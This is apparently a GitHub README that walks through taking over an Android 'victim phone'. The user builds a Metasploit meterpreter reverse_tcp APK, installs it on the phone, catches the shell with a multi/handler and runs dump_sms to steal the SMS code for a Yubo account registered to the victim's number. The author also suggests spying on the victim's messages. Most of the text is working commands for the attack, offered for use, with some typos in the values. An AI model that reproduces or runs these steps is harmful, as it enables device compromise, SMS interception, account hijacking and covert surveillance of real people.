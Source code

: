 vuln+exp:

First of all, let's get ourselves a victim phone or device: I am going to be using a Samsung Galaxy S6 running Android 7, kernel version 3.10.61-13830439 
and Knox 2.7.1. This phone is super old (and rooted, hence the outdated software) yet the exploit works.

Disclaimer: This exploit may work on Apple devices, however it is a different process as APK files do not run on iOS or OS X. 

First off, let's install Yubo. Once you have done this, make sure you have Metasploit installed. I will be using this in combination with a local Apache server
to transfer the APK easier. I will be using Ubuntu Budgie 20.04 but this works on any operating system.

First terminal command: ifconfig #this gives you the LHOST IP, indicated by 1.png in the repository.
Mine is 192.1.168.180 (yes, this only works on local networks however if you are a port forwarding nerd, this will work globally).

Next terminal command: [msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.180 LPOST=4444 R > attack.apk] #replace LHOST with your local IP.
LPORT is 4444, don't ask why, it just works. Also, don't ask why the R is there, again, it just works.

I am going to move this to my local Apache server - var/www/html/ but you can transfer via bluetooth, USB, google drive etc.

In the meantime, next terminal command: [msfconsole -q] #Ignore the sh!tty banner, we are getting down to business bois.
then, [use exploit/multi/handler] #this is our exploit handler.
Next, [set LHOST 192.168.1.180]  #again, replace with your local IP. LPORT should already be configured to 4444 in msfconsole.

Next, [set payload android/meterpreter/reverse_tcp] #this tells the exploit what payload to receive and handle.

Before you enter exploit, install the APK on the victim phone and leave it there. See 2.png in repository.

Enter [exploit] and click the APK once or twice. You should enter the phone.

If you don't get a functioning meterpreter shell, close the current session and show the sessions by typing (you guessed it), [sessions].
Switch session to a running one with [sessions -i 1] where 1 is the number of the session you want.

You now have full access to the phone, but don't get too excited. SMS is one of the only modules in here that is stealthy and the user gets no prompt
or knowledge of what we are doing. 

Go to Yubo > Sign up > enter random details >  enter the victim phone number - it will send a code. Here is where we come in. Go into your meterpreter
and type dump_sms (see P.O.C.png in repository).

I had to use prior screenshots from Kali seeing as the reverse_tcp was not connecting from my phone to computer. I will update these as soon
as it works again (it might actually be the new metasploit update).

I have also attached the screenshot of the dump_sms with the Yubo code.

When you dump the sms, the file will be saved in your home directory. Simple open the file and search for a Yubo code (or more juicy things if you are trying to spy on their messages). [cat [dump] | grep "Yubo"].

Update: new screenshots updates, worked in Kali Linux. The issue is MSF6. MSF5 is the last working reverse_tcp for android. Will be reporting the issues.
